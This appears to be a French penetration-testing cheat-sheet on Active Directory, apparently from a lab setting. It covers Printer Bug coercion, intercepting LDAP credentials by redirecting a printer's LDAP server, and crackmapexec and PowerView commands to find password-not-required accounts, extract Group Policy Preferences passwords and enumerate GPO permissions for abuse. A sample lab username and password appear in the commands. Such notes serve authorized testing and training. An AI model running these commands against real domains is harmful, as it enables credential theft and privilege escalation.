 ```yaml
---
public: true # set to true to make the article publishable
---
```

### Printer Bug

<https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-rprn>

### Sniffer des identifiants LDAP

On peut parfois accéder à des équipements ayant une configuration ldap (par exemple un photocopieur avec la fonction scan to mail.

Dans ce cas, on peut tenter de modifier l'IP du serveur LDAP vers notre propre machine et "tester" la connection pour intercepter les identifiants / mot de passe.

)

### Mot de passe non requis (PASSWORD NOT REQ)

```powershell
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol

crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host>  --password-not-required
```

## Identifiants dans les partages SMB

### Mots de passes de GPP (Stratégies de groupes de préférence)

```shell-session
crackmapexec smb -L | grep gpp
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_password
Get-GPPAutologon.ps1 (Powersploit)
```

### ASRepRoasting

[[ASREPRoasting]]

### GPO Abuse

#### Enumeration

[group3r](https://github.com/Group3r/Group3r), [ADRecon](https://github.com/sense-of-security/ADRecon), [PingCastle](https://www.pingcastle.com/),

[Get-DomainGPO](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainGPO) (poweview)

```powershell
Get-DomainGPO | Select DisplayName
Get-GPO -All | Select DisplayName

$sid=Convert-NameToSid "Domain Users"
Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}


```

### Exploitation

 [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
